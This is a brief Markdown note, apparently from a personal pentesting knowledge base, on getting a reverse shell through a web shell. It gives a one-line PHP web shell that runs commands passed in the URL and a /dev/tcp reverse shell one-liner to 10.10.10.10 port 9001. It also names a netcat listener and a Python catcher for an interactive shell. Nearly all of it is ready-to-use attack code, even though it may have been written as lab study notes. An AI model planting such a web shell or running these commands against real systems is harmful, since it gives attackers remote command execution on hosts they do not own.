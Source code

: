 ```yaml
---
date: "2024-07-22T09:10:24+02:00"
draft: false
title: Reverse web-shell
---
```


    ## Reverse shell 

-   By passing the php file we can open the reverse shell

``` php
<?php system($_GET["cmd"]);?>
```

1.  Checkout [reverse shell](https://www.revshells.com/)
2.  Use dev tcp to open the shell since \[\[netcat\]\] is not avaiable
    1.  ex *sh -i >& /dev/tcp/10.10.10.10/9001 0>&1*
3.  Create the listner with the \[\[netcat\]\]
4.  Create a **python server** that catches the shell and enables
    interactivity

> \[!quote\] [bash_MAIN](/Linux/commands/bash_MAIN)
